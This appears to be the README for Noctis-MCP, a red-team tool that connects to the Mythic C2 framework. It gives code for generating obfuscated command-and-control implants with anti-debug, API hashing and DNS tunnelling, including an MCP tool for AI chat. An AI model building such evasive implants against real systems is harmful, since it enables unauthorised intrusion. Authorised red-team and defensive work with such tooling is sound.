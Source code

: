 # Mythic C2 Integration Guide

Complete guide for integrating Mythic C2 with Noctis-MCP.

## Quick Install

```bash
# Clone Mythic
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic

# Install dependencies
sudo ./install_docker_ubuntu.sh

# Start Mythic
sudo ./mythic-cli start

# Access UI
# https://127.0.0.1:7443
```

## Get API Token

1. Open Mythic UI: `https://127.0.0.1:7443`
2. Login with default credentials (check terminal output)
3. Navigate to Settings → API Tokens
4. Generate new API token
5. Copy token for Noctis-MCP

## Usage with Noctis-MCP

### Python API

```python
from c2_adapters.mythic_adapter import generate_mythic_agent

# Generate Apollo HTTP agent
result = generate_mythic_agent(
    listener_host="192.168.1.100",
    listener_port=80,
    agent_type="apollo",
    c2_profile="http",
    architecture="x64",
    api_token="your_api_token_here",
    obfuscate=True
)

if result.success:
    print(f"Agent: {result.beacon_path}")
    print(f"OPSEC: {result.opsec_score}/10")
```

### REST API

```bash
curl -X POST http://localhost:5000/api/c2/mythic/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "192.168.1.100",
    "listener_port": 80,
    "agent_type": "apollo",
    "c2_profile": "http",
    "architecture": "x64",
    "api_token": "your_api_token_here",
    "obfuscate": true
  }'
```

### MCP Tool (AI Chat)

```
generate_mythic_agent(
    listener_host="192.168.1.100",
    listener_port=80,
    api_token="your_api_token_here",
    agent_type="apollo",
    c2_profile="http",
    obfuscate=True
)
```

## Supported Agent Types

- **Apollo** - Windows C2 agent (.NET)
- **Apfell** - macOS/Linux agent (JavaScript)
- **Poseidon** - Cross-platform agent (Golang)
- **Merlin** - Cross-platform HTTP/2 agent
- **Atlas** - Windows agent (C++)

## Supported C2 Profiles

- **HTTP** - Standard HTTP communication
- **HTTPS** - Encrypted HTTPS
- **WebSocket** - Real-time WebSocket
- **DNS** - DNS tunneling
- **SMB** - Named pipes over SMB

## Configuration Options

```python
from c2_adapters.config import MythicConfig, Architecture

config = MythicConfig(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    payload_type="apollo",
    c2_profile="https",
    architecture=Architecture.X64,
    api_key="your_api_token"
)
```

## With Noctis Obfuscation

```python
# Generate obfuscated Apollo agent
result = generate_mythic_agent(
    listener_host="192.168.1.100",
    listener_port=443,
    agent_type="apollo",
    c2_profile="https",
    api_token="token",
    techniques=[
        "NOCTIS-T124",  # API hashing
        "NOCTIS-T118"   # String encryption
    ],
    obfuscate=True
)
```

## Troubleshooting

### Server Not Running
```bash
# Check status
sudo ./mythic-cli status

# Restart
sudo ./mythic-cli restart
```

### API Token Invalid
```
Error: 401 Unauthorized
Solution: Generate new API token in Mythic UI
```

### Docker Not Running
```bash
# Start Docker
sudo systemctl start docker

# Enable on boot
sudo systemctl enable docker
```

## Advanced Features

### Custom Build Parameters

```python
from c2_adapters.config import MythicConfig

config = MythicConfig(
    listener_host="c2.example.com",
    listener_port=443,
    payload_type="apollo",
    c2_profile="https",
    build_parameters={
        "architecture": "x64",
        "obfuscation": True,
        "anti_debug": True
    }
)
```

### Multiple C2 Profiles

```python
# HTTPS beacon
result_https = generate_mythic_agent(
    listener_host="c2.example.com",
    listener_port=443,
    c2_profile="https",
    api_token="token"
)

# DNS beacon
result_dns = generate_mythic_agent(
    listener_host="c2.example.com",
    listener_port=53,
    c2_profile="dns",
    api_token="token"
)
```

## Resources

- **Official Docs**: https://docs.mythic-c2.net
- **GitHub**: https://github.com/its-a-feature/Mythic
- **Discord**: https://discord.gg/mythic
- **YouTube**: Search "Mythic C2 tutorial"

## Integration Status

✅ **PRODUCTION READY**
- MythicAdapter: 410 lines
- API endpoint: `/api/c2/mythic/generate`
- MCP tool: `generate_mythic_agent()`
- Tests: 13 passing
- Full Noctis obfuscation support

